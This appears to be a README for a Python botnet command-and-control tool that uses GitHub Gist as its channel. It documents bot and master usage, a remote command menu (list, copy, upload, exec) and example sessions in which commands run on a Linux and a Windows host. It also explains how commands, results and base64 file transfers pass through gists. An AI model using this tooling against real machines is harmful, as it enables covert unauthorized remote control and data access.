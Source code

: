 ## Prerequisites

python3+

## Usage

### Bot

#### Usage

`bot.py <gist_api_token> [<command_fetch_interval[s]> <bot_id> <init_datetime>]`

* `<gist_api_token>` - token for the gist api
* `<command_fetch_interval[s]>` - command fetch interval (in seconds, default = 1)
* `<bot_id>` - id of the preregistered bot (if none provided, it will be registered)
* `<init_datetime>` - init time to fetch commands (format '%Y-%m-%dT%H:%M:%SZ', default = '1900-01-01T00:00:00Z')

### Bot master

#### Usage

`bot_master.py <gist_api_token>`

* `<gist_api_token>` - token for the gist api

#### Interactive usage

* `bots` - list all bots
* `select <bot_id>` - select a bot
* `send <local_source_file> <remote_target_file>` - send file to a current bot's environment
* `cm <command>` - send a command (to current bot). Available commands:
  * `ls <dir path>` - list files in the directory
  * `cp <source> <target>` - copy a remote file
  * `exec <os command and args>` - execute OS command
* `history` - print a command history (of selected bot)
* `result <command_id>` - print the result of a command (of current bot)
* `info` - print info about environment (of current bot)
* `last` - print the result of the last executed command (of current bot)
* `help` - for help
* `exit` - to exit

## Example

___1. Run bots in two different environments:___

_Bot #1:_
```
username@hostname:~/$ python3 bot.py 349ab29asxtabw423bva5hca5623bc39b8c8
25/12/2020 14:03:20 [INFO] Registering the bot...
25/12/2020 14:03:22 [INFO] Successfully registered. Bot id = b569e438c685b70458e51907b40e51e5
25/12/2020 14:03:22 [INFO] Fetching new commands...
25/12/2020 14:03:22 [INFO] Fetched 0 new commands.
```

_Bot #2:_
```
C:\app>python bot_master.py 349ab29asxtabw423bva5hca5623bc39b8c8
25/12/2020 15:06:29 [INFO] Registering the bot...
25/12/2020 15:06:30 [INFO] Successfully registered. Bot id = 198a0a574b6b3e0c6a89753a853c4e6d
25/12/2020 15:06:30 [INFO] Fetching new commands...
25/12/2020 15:06:30 [INFO] Fetched 0 new commands.
```

___2. Run bot master and check the list of registered bots:___
```
username@hostname:~/$ python3 bot_master.py 349ab29asxtabw423bva5hca5623bc39b8c8
[None]: bots
[None]: {'id': '198a0a574b6b3e0c6a89753a853c4e6d', 'registered': '2020-12-25T14:06:31Z', 'updated': '2020-12-25T14:06:32Z'}
[None]: {'id': 'b569e438c685b70458e51907b40e51e5', 'registered': '2020-12-25T14:03:21Z', 'updated': '2020-12-25T14:03:22Z'}
```
___3. Send commands to bots:___

_select a bot:_
```
[None]: select 198a0a574b6b3e0c6a89753a853c4e6d
[198a0a574b6b3e0c6a89753a853c4e6d]: select b569e438c685b70458e51907b40e51e5
[b569e438c685b70458e51907b40e51e5]: Selected b569e438c685b70458e51907b40e51e5
```

_info:_
```
[b569e438c685b70458e51907b40e51e5]: info
[b569e438c685b70458e51907b40e51e5]: ['Linux-4.12.0-1-amd64-x86_64-with-debian-10.5', 'hacker', ['192.168.8.21', '172.16.1.21']]
```

_send a commands:_
```
[b569e438c685b70458e51907b40e51e5]: cm ls /
[b569e438c685b70458e51907b40e51e5]: Sent command id: gASVDgAAAAAAAABdlCiMAmxzlIwBL5RlLg==
[b569e438c685b70458e51907b40e51e5]: cm ls /usr
[b569e438c685b70458e51907b40e51e5]: Sent command id: gASVEQAAAAAAAABdlCiMAmxzlIwEL3VzcpRlLg==
```

_get result of the last command:_
```
[b569e438c685b70458e51907b40e51e5]: last
[b569e438c685b70458e51907b40e51e5]:
['ls', '/usr']
['include', 'share', 'lib', 'src', 'local', 'games', 'bin', 'lib32', 'sbin']
```

_checking the command history:_
```
[b569e438c685b70458e51907b40e51e5]: history
[b569e438c685b70458e51907b40e51e5]: {'command_id': 'gASVDgAAAAAAAABdlCiMAmxzlIwBL5RlLg==', 'command': ['ls', '/']}
[b569e438c685b70458e51907b40e51e5]: {'command_id': 'gASVEQAAAAAAAABdlCiMAmxzlIwEL3VzcpRlLg==', 'command': ['ls', '/usr']}
```

_get result of the command from history:_
```
[b569e438c685b70458e51907b40e51e5]: result gASVDgAAAAAAAABdlCiMAmxzlIwBL5RlLg==
[b569e438c685b70458e51907b40e51e5]:
['ls', '/']
['dev', 'ClassData', 'opt', 'run', 'lib', 'sys', 'var', 'media', 'boot', 'mnt', 'srv', 'flag', 'etc', 'pro
c', 'TeamsData', '.dockerenv', 'bin', 'usr', 'home', 'lib32', 'sbin', 'lib64', 'root', 'tmp']
```

_select another bot and send commands:_
```
[b569e438c685b70458e51907b40e51e5]: select 198a0a574b6b3e0c6a89753a853c4e6d
[198a0a574b6b3e0c6a89753a853c4e6d]: Selected 198a0a574b6b3e0c6a89753a853c4e6d
[198a0a574b6b3e0c6a89753a853c4e6d]: cm ls D:/tmp
[198a0a574b6b3e0c6a89753a853c4e6d]: Sent command id: gASVEwAAAAAAAABdlCiMAmxzlIwGRDovdG1wlGUu
[198a0a574b6b3e0c6a89753a853c4e6d]: last
[198a0a574b6b3e0c6a89753a853c4e6d]:
['ls', 'D:/tmp']
['app.log']
```

_send a local file to bot:_
```
[198a0a574b6b3e0c6a89753a853c4e6d]: send /home/user/bot.py D:/tmp/bot.py
[198a0a574b6b3e0c6a89753a853c4e6d]: Uploading file content /home/user/bot.py
[198a0a574b6b3e0c6a89753a853c4e6d]: Successfully uploaded: file id = b17f883fa593eb2f8ac309c1094110bc
[198a0a574b6b3e0c6a89753a853c4e6d]: Sent command id: gASVPQAAAAAAAABdlCiMAmRklIwNRDovdG1wL2JvdC5weZSMIGIxN2Y4ODNmYTU5M2ViMmY4YWMzMDljMTA5NDExMGJjlGUu
[198a0a574b6b3e0c6a89753a853c4e6d]: last
[198a0a574b6b3e0c6a89753a853c4e6d]:
['dd', 'D:/tmp/bot.py', 'b17f883fa593eb2f8ac309c1094110bc']
Created: D:/tmp/bot.py
[198a0a574b6b3e0c6a89753a853c4e6d]: cm ls D:/tmp/
[198a0a574b6b3e0c6a89753a853c4e6d]: Sent command id: gASVFAAAAAAAAABdlCiMAmxzlIwHRDovdG1wL5RlLg==
[198a0a574b6b3e0c6a89753a853c4e6d]: last
[198a0a574b6b3e0c6a89753a853c4e6d]:
['ls', 'D:/tmp/']
['app.log', 'bot.py']
```

_change bot and execute OS command:_
```
[198a0a574b6b3e0c6a89753a853c4e6d]: select b569e438c685b70458e51907b40e51e5
[b569e438c685b70458e51907b40e51e5]: Selected b569e438c685b70458e51907b40e51e5
[b569e438c685b70458e51907b40e51e5]: cm exec ls -la
[b569e438c685b70458e51907b40e51e5]: Sent command id: gASVFwAAAAAAAABdlCiMBGV4ZWOUjAJsc5SMAy1sYZRlLg==
[b569e438c685b70458e51907b40e51e5]: last
[b569e438c685b70458e51907b40e51e5]:
['exec', 'ls', '-la']
total 40
drwxr-xr-x 3 username username 4096 Dec 25 14:03 .
drwxr-xr-x 3 username username 4096 Dec 25 14:02 ..
-rw-r--r-- 1 username username    7 Dec 25 13:36 README.md
-rw-r--r-- 1 username username 4791 Dec 25 13:36 bot.py
-rw-r--r-- 1 username username 6187 Dec 25 13:36 bot_master.py
-rw-r--r-- 1 username username 1532 Dec 25 13:36 gist.py
-rw-r--r-- 1 username username 1572 Dec 25 13:36 util.py
```

## Additional info:

* registered bot is represented as a gist with description "bot"
* command is represented as a gist-file in the gist
* result of the command is represented as a content of the file
* file transfer implementation:
  * bot master creates a gist with description "data"
  * this data gist contains a single gist-file "data"
  * this data gist-file contains a base64 encoded content of the choosen file
  * bot decodes the gist-file content and saves to a target file
